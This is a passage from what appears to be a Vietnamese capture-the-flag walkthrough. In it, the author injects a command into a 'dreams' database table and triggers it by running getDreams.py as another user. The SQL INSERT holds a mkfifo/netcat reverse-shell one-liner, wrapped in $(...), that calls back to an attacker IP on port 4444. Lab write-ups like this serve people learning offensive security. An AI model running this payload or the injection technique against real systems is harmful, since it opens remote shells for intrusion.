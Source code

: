 - Kiểm tra db, thấy có table `dreams` được tương tác trong đoạn code kể trên.

![Hoangdeptrai](Images/33.png)

- Việc cần làm bây giờ, như đã nói đó là chèn command vào `dreamer` hoặc `dream`.

- Sử dụng lệnh sau:

```sql
INSERT INTO dreams (dreamer, dream) VALUES ('Hoang', '$(rm /tmp/f;mkfifo /tmp/f;cat /tmp/f|/bin/sh -i 2>&1|nc 10.21.175.20 4444 >/tmp/f)');
```

- Theo đó, tôi chèn một revershell gọi ngược lại máy attack được viết dưới dạng `$(command)` để thực thi trực tiếp reverse shell.

![Hoangdeptrai](Images/35.png)

- Chèn command thành công, tiến hành chạy file `getDreams.py` bằng user `death` để trigger shell này.

![Hoangdeptrai](Images/36.png)
